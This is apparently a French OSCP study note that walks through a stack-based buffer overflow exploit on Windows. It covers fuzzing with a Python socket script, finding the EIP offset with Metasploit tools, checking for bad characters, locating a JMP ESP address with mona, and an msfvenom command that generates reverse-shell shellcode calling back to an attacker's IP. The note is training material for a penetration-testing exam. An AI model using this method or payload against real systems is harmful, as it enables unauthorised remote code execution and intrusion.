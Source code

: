 # OSCP
Road map pour Stack Based BoF

# FUZZING :
Trouver un paramètre et lui envoyer autant de bytes possibles en créant un script python et en utilisant la lib socket.

Une fois que le programme a crash, récuperer le nombre de bytes qui l'ont fait crash. 

# FINDING OFFSET :
Afin de récuperer l'offset précis pour écrire EIP, utiliser "/usr/share/metasploit-framework/tools/exploit/pattern_create.rb - l {nb de bytes qui ont fait crash le fuzzer}" pour générer des bytes uniques.

Ensuite on modifie le script python afin d'envoyer les bytes générés, on execute le script et on récupere sur Immunity la valeur de EIP.

Après cela, utiliser "/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l {nb bytes qui ont fait crash le fuzzer} -q {offset trouvé sur EIP dans Immunity}"

Le script ruby nous retourneras l'offset précis afin de controler EIP, tester en ajoutant :

      shellcode = {"A" * nb de bytes qui ont fait crash le fuzzer} + {"B" * 4}

Cette fois, on devrais voir EIP à "42424242".

# FINDING BADCHARS :
Taper sur Google : badchars, copier le code et le coller dans une variable, les encodés directement et les rajouter qu'après la fonction encode.

      shellcode = {"A" * nb de bytes qui ont fait crash le fuzzer} + {"B" * 4} + {badchars}
      
Retourner sur Immunity, aller sur ESP, clic droit et follow dump, si la suite des badchars s'affiche correctement, il n'y a pas de badchars, sinon, récuperer le ou les badchars et les exclures lors de la génération de shellcode.

# FINDING vulnerable MODULE :
Désormais, aller sur Immunity importer mona, relancer le programme et chercher un module sans aucune sécurité active (tout à false) :

      !mona modules

Après cela, chercher dans ce propre module, une adresse qui jump sur ESP afin de réecrire dedans et executer le shellcode

      !mona jmp -r esp -m {nom du module non sécurisé}
Ou

      !mona jmp -r esp -cpb "\x00"
      
Quand l'adresse est trouvée, relancer Immunity en attachant le programme, cliquer en haut sur "Go to address in disassembler", entrer l'adresse et poser un breakpoint avec F2.


Aller sur le script python et faire ceci :

      shellcode = {"A" * nb de bytes qui ont fait crash le fuzzer} + {adresse JMP en little endian}
      
Pour l'adresse en little endian déjà encodée en byte : ret = bytes.fromhex('{Adresse en little endian}')

Si après exécution du script, EIP contient la valeur de l'adresse, cela fonctionne.

# GENERATING SHELLCODE :
Afin de générer le shellcode, utiliser msfvenom :

      msfvenom --arch x86 --platform windows LHOST={@IP} LPORT={@PORT} -e x86/shikata_ga_nai -p windows/shell_reverse_tcp -f python -b "\x00 (ne pas oublier les badchars trouvés)"
      
 Copier le shellcode, le mettre dans le script et l'ajouter de la manière suivante :
 
       shellcode = {"A" * nb de bytes qui ont fait crash le fuzzer} + {adresse JMP en little endian} + nop*10 + {shellcode généré}
       
# REVERSE SHELL :
Se mettre à l'écoute au préalable, lancer le script, normalement un shell est poppé.
